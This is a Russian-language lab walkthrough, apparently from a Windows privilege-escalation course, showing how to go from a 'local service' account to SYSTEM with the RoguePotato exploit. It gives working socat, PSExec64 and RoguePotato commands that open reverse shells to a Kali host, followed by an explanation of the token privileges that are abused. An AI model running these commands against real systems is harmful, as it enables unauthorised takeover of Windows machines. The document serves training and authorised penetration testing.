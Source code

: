 # 🐾 16. Имперсонация токенов - Rogue Potato

## 📜 Описание задания
В этом задании мы будем использовать инструмент `Rogue Potato`, чтобы получить доступ к системе с правами `SYSTEM` через имперсонацию токенов. Мы настроим перенаправление порта на Kali, используем `PSExec64.exe` для выполнения реверсного шелла с правами учетной записи "local service", а затем запустим эксплойт `Rogue Potato` для получения прав `SYSTEM`.

---

## 🔍 Шаг 1: Настройка перенаправления порта с помощью socat
На Kali настройте перенаправление порта 135 на порт 9999 на Windows с помощью `socat`:

'`sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.1.124:9999`'

### 📋 Ожидаемый вывод
- Убедитесь, что перенаправление порта настроено корректно и слушатель на Kali готов к подключению.

---

## 🔑 Шаг 2: Симуляция входа с правами учетной записи "local service"
Запустите слушатель на Kali. Затем, имитируя вход в систему с учетной записью администратора, откройте командную строку с правами администратора (ПКМ -> "Запуск от имени администратора") и используйте `PSExec64.exe`, чтобы запустить `reverse.exe` с правами учетной записи "local service":

'`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`'

### 📋 Ожидаемый вывод
- Убедитесь, что реверсный шелл запущен с правами учетной записи "local service" и подключен к слушателю на Kali.
![image](https://github.com/user-attachments/assets/c62a83cd-ed4a-4fe6-aa86-7ae8e24d4731)

---

## 📝 Шаг 3: Запуск эксплойта RoguePotato
Теперь в реверсной оболочке "local service", запустите эксплойт `RoguePotato`, чтобы получить второй реверсный шелл с правами `SYSTEM`:

'`C:\PrivEsc\RoguePotato.exe -r 10.23.0.73 -e "C:\PrivEsc\reverse.exe" -l 9999`'

### 📋 Ожидаемый вывод
- Убедитесь, что эксплойт успешно выполнен и вы получили второй реверсный шелл с правами `SYSTEM` на Kali.
![image](https://github.com/user-attachments/assets/79b2df6c-2308-418e-a66d-08b7ac0ec96e)

---

## 🎉 Поздравления!
Вы успешно использовали эксплойт `Rogue Potato` для получения прав `SYSTEM` через имперсонацию токенов! 🎊

---

## 📌 Примечания
- Будьте осторожны при использовании полученных знаний, всегда действуйте в рамках разрешенных тестов на проникновение.

---

## 📌 Информация об ответе
### 1. **SeImpersonatePrivilege**:
Эта привилегия позволяет пользователю "имперсонировать" (выдавать себя за) другого пользователя. Это важный элемент в процессе эксплуатации токенов безопасности. Когда у пользователя есть эта привилегия, он может захватывать или "перехватывать" чужие токены (например, токены других пользователей или сервисных учетных записей), что необходимо для эксплуатации уязвимостей, таких как `RoguePotato`. Это позволяет злоумышленнику выполнять команды с правами другого пользователя, например, с правами `LOCAL SERVICE`.

### 2. **SeAssignPrimaryTokenPrivilege**:
Эта привилегия позволяет пользователю назначать первичный токен безопасности другим процессам. Когда у пользователя есть эта привилегия, он может изменять токены безопасности процессов, что дает возможность повысить привилегии. В контексте `RoguePotato` эта привилегия используется для получения доступа к более высокому уровню прав, таким как `SYSTEM`, позволяя запускать процессы от имени этой учетной записи.

### Как это работает в `RoguePotato`:
- **SeImpersonatePrivilege** позволяет атакующему "перехватить" токен `LOCAL SERVICE` и выполнять команды от имени этого аккаунта.
- **SeAssignPrimaryTokenPrivilege** позволяет атакующему назначить токен безопасности с правами `SYSTEM` для выполнения дальнейших атак с высшими правами.

Именно сочетание этих двух привилегий позволяет атакующему выполнить эксплойт и получить права `SYSTEM`.
